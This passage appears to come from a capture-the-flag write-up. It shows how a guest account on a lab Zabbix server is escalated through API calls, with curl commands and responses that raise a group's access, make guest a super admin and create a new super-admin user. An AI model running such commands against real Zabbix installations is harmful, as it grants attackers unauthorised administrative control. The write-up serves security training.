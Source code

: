     root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"usergroup.update", "id":1, "auth":"a8b49852bf6272f469281dd2c7a3bd91", "params":{"usrgrpid": "12", "gui_access": "2"}}' | jq -c '.'
    {"jsonrpc": "2.0","result": {"usrgrpids": ["12"]},"id": 1}



#### Add Admin Rights to Guest

When I log in as guest, I only have a limited menu compared to what I
could do as zabbix or admin:

![](/img/1550626552078.png)

If I look at the properties of a [user
object](https://www.zabbix.com/documentation/3.0/manual/api/reference/user/object),
one is type:

![](/img/1550626438352.png)

So I'll use the
[user.update](https://www.zabbix.com/documentation/3.0/manual/api/reference/user/update)
api to change guest to super admin:



    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"user.update", "id":1, "auth":"5e0e2dc84136edbf2a03e1d8c04e95e6", "params":{"userid": "2", "type": "3"}}' | jq -c '.'
    {"jsonrpc": "2.0","result": {"userids": ["2"]},"id": 1}



Now when I click the link to log in as guest, I've got the full site:

![](/img/1550626509640.png)

And I can set it back when I'm done:



    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"user.update", "id":1, "auth":"5e0e2dc84136edbf2a03e1d8c04e95e6", "params":{"userid": "2", "type": "1"}}' | jq -c '.'
    {"jsonrpc":"2.0","result":{"userids":["2"]},"id":1}



#### Create New Admin User

If all of that seems like too much work, I can just create my own user
with the
[user.create](https://www.zabbix.com/documentation/3.0/manual/api/reference/user/create)
API. I'll follow the example in the API docs, giving a passwd, alias,
type 3 = super admin, and adding to the admins group 7:



    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"user.create", "id":1, "auth":"5e0e2dc84136edbf2a03e1d8c04e95e6", "params":{"passwd": "fdx0", "usrgrps": [{"usrgrpid": "7"}], "alias": "0xdf", "type": "3"}}' | jq -c '.'
    {"jsonrpc":"2.0","result":{"userids":["4"]},"id":1}
